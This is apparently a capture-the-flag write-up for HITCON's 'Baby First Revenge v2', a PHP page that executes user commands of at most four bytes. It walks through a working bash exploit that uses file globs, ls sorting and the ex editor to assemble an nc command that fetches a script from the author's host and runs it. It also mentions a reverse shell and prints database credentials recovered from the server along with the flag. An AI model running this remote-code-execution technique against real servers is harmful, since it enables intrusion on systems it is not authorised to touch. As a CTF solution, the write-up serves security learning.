 # Baby First Revenge v2
**Description**: This is the hardest version! Short enough? http://52.197.41.31/

## The challenge
Visiting the URL in the challenge gives:

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

So the challenge is clear: get RCE using only 4 byte bash commands, but you have a persistent writable working directory.
There was another version of the challenge allowing up to 5 characters.
The solution described here works for that one as well of course.

One really useful thing was that it is possible to read files in your working directory by requesting `http://52.197.41.31/sandbox/HASH` where `HASH = md5("orange" + "YOURIP")`.
I used this on the 5-byte version to gather some information about the system, for example to find out that it an Ubuntu Xenial system (from output of `apt list`, which you can run using the glob technique described in the next section) .

## The exploit (or, how I came to be an EXpert)
4 characters is very little, so as a first step, we need to find a way to execute longer commands.
In bash, you can create files with `>filename`.
We can then use globs like `*` to run a command made of 4 character words. For example, we can check the environment variables:

```bash
bash:~ $ >env
bash:~ $ *>x # this runs env>x, because * expands to x
```

Also, we can use `ls` to write data into files:

```bash
bash:~ $ >abc
bash:~ $ >def
bash:~ $ ls>x # writes abc\ndef\ņx into x (note that x is included in the result of ls, because it gets created before ls runs)
```

One problem we are facing here is that the result of `ls` and `*` are both sorted according to the current locale (which appears to be C on the server), so the following wont work:

```bash
bash:~ $ >nc
bash:~ $ >-l
bash:~ $ * # does not work: expands to -l nc
```

But it is still not possible to write words longer than 3 characters, and we're going to need that if we want to connect to any server (unless you don't own a 3 letter domain :).
I got stuck at this point for a long time.
As I couldn't find any way to strip trailing newlines from files allowing me to build longer words with `cat`, I instead looked for some sort of "interpreter" that has short commands (<=3 characters) and is line based.
At first, I tried a solution involving `dc`, a stack based calculator, but as it turns out that command was not installed on the remote system.

Then I found out about `ex`. It was installed on the remote system (as it comes with `vim`) and provides a very succint language to perform editing operations on a file, exactly what we need!

With a lot of help from the `man ex`, here's how to build the command "nc 3645160312 99 > x" (3645160312 is the decimal version of my ip) to allow sending arbitrary scripts to the server (after that, you can just `sh x`, which is 4 characters, to execute any command). You can run this as a bash script:

(Note that all the ex commands need to be carefully constructed since they execute in alphabetic order, so even
if you do `>w` followed `>j`, ls will sort the result and thus `ex` receives `j` followed by `w` as input, not the other way around)
`
```bash
# create a clean working directory for demsonstration, not part of the actual exploit script
mkdir work 
cd work
export LC_ALL=C LANG=C # for correct sorting, set same locale as server

##
# stage 1: create files for the "parts" that we need
###
>nc
>36
>451
>60
>312
>999
>\>
ls>x # writes all the file names into x separated by newlines

# some debugging output, this is of course not part of the actual exploit
# x at this point contains: 312  36   451  60   999  >    nc   x (with newlines instead of spaces)
echo STAGE1 RESULT; cat x 

###
# stage 2: use ex to bring the lines into the correct order
# 
# luckily, ex ignores most invalid commands so even though our directory already contains a lot of files which
# will be included in the output of ls we can still use ls to build ex commands
###
>2j! # join the 2nd and 3rd line with space, producing 36541 (first part of ip)
>w   # save the file ("write")
ls>z # write ex commands into file z
>ex  # create the ex file for the following command
*x<z # runs ex x < z to execute `ex` on the file `x` with commands read from `z`

# note that at this point, we cannot delete the file 2j! anymore, so any further ex invocations will
# run the command 2j! as well, keep that in mind

>1m3 # move the first line (312, end of ip) to after line 3 (60, part before end of ip)
# now, 2j! is run to join the second line (312, because first line was moved) with third line (60)

# these commands indent the lines 3 (end of ip), 4 (>) and 6 (x) so that when we join them without space later, 
# there's still space between them
>3\>
>4\>
>5m0 # move 5th line (nc) to first line
>6\>

ls>z
*x<z # run ex again

echo STAGE2 RESULT; cat x

###
# stage 3: the file is now in the right order, just join them all
#
# one problem here is that we already have a lot of ex commands in our working directory,
# but we don't want to re-execute them. So we use %, which sorts before everything we've used so
# far, and applies our commands to all lines in the file. %wq saves the changes & q ensures that we quit
# and do not process any further commands

>%j! # join all lines directly, not adding additional space
>%wq # write and quit

ls>z
*x<z # run ex


echo FINAL RESULT; cat x 
```

And there it is! Now we can upload a reverse shell and see that there's a README.txt in the home directory which contains this (or something similar for v2):

```
Flag is in the MySQL database
fl4444g / SugZXUtgeJ52_Bvr
```

So just use the `mysql -ufl4444g -pSugZXUtgeJ52_Bvr` to extract the flag from the database:

**hitcon{idea_from_phith0n,thank_you:)}**

I've also uploaded the [python script](https://gist.github.com/bennofs/63ce0503c5fba9277f01d13adbe95bf6) I used to run the exploit.

**bonus**: Is it possible to construct an algorithm to automatically build the ex commands to build arbitrary commands from parts? I think it should be possible
